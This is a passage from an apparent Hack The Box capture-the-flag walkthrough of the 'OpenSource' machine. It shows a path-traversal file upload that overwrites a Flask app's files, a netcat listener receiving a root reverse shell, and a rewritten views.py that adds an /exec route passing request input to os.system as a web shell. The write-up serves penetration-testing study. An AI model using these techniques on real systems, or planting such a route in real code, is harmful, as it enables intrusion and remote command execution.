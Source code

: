 ```http
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26293638831672363921248373520
Content-Length: 253
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------26293638831672363921248373520
Content-Disposition: form-data; name="file"; filename="..//..//..//..//app/app/__init__.py"
Content-Type: image/png


-----------------------------26293638831672363921248373520--
```
and we got shell as root into a container:
```shell
root@kali:~/Documents/HTB/Boxes/OpenSource/walkthroughs# nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.164] 38016
/app #       
```

### Method 1 - Arbitrary File Upload, Malicious Route Creation
When we overwrite the `__init__.py` file, the application stops working since our shell is interrupting the load of libraries.  
Instead of overwriting, we can overwrite `/app/app/views.py` and add an additional route `/exec` that can allow us to execute code:  
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')



@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))


@app.route('/exec')
def cmd():
    return os.system(request.args.get('cmd'))
```
